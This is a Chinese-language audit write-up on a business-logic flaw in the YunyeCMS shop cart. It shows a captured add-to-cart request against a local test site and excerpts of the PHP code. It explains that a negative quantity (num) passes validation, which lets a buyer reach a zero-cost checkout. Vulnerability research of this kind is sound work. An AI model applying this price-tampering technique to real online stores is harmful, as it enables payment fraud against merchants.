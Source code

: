 ![image-20250331094948603](image/image-20250331094948603.png)

定位到该文件core/app/shop/cart.php

首先思考下，任意修改金额大小，那么肯定是金额计算时某个参数出现问题，或者本身金额可控。

抓包支付相关的几个数据包

```
POST /index.php?m=shop&c=cart&a=add HTTP/1.1
Host: 127.0.0.1
Content-Length: 45
Cache-Control: max-age=0
sec-ch-ua: "Not?A_Brand";v="99", "Chromium";v="130"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Origin: http://127.0.0.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/index.php?a=show&catid=28&id=14
Accept-Encoding: gzip, deflate, br
Cookie: qebak_loginlangid=1; PHPSESSID=2s3tcto0ijbimh42ejdriomed2; YUNYECMS_userid=7; YUNYECMS_username=ss; YUNYECMS_loginrnd=fijvwCEFGJRSVXYZ; YUNYECMS_logintruetime=1743339213; YUNYECMS_logintime=1743339213; YUNYECMSADM_admusername=admin; YUNYECMSADM_admuserid=1; YUNYECMSADM_admroleid=1; YUNYECMSADM_admloginrnd=fjtvCXY78%40%25%5E%28%5D%7B%3E%3D%2F%3F%7C; YUNYECMSADM_admlogintruetime=1743344212; YUNYECMSADM_admloginlicense=yunyecmslicense; YUNYECMSADM_loginyunyecmsckpass=5e0ac4302d1e5164c4159a2dca59905d; YUNYECMSADM_loginyunyecmsfilernd=abdefhkqrvwxAEHJKNOPQSU0259; YUNYECMSADM_admlogintime=1743344346
Connection: keep-alive

num=1&gid=14&catid=28&token=fijvwCEFGJRSVXYZ
```

发现了num,gid,catid,token参数，定位金额

```
$goods=GetContentById($var["gid"],$var["catid"]);
				  $list[$key]["goods"]=$goods;
				  $list[$key]["goods"]["url"]=url('show/index/content',array("catid"=>$goods["catid"],"id"=>$goods["id"]));
				  $list[$key]["totalprice"]=round($var["num"]*$var["price"],2);
				  $list[$key]["price"]=round($var["price"],2);
```

gid是商品号,num是数量,然后还有个price单价，num*price=totalprice，也就是金额只跟这三个有关。

首先看num是如何操作的，add方法

```
  if(empty($_REQUEST['num'])){
	     $num=1;
		 }else{
	     $num=trim($_REQUEST['num']);
		 $num = intval(usafestr($_REQUEST['num']));
		 }
	     if(!empty($_REQUEST['gid'])){
		    $gid=$_REQUEST['gid'];
			if(!is_numeric($gid)){
		     messagebox(Lan('goodsid_is_notnum'));		
             }
		 }else{
		     messagebox(Lan('goods_parm_error'));		
		 }
```

为空时，默认为一。否则就从request获取过滤，跟进usafestr方法，包含了一些sql注入的过滤，以及确定num为整数

在装入购物车的时候抓包，修改num数值。当输入num为负数时,仍然是有效的数字

![image-20250331105616005](image/image-20250331105616005.png)

![image-20250331105625139](image/image-20250331105625139.png)

从而达到0元购
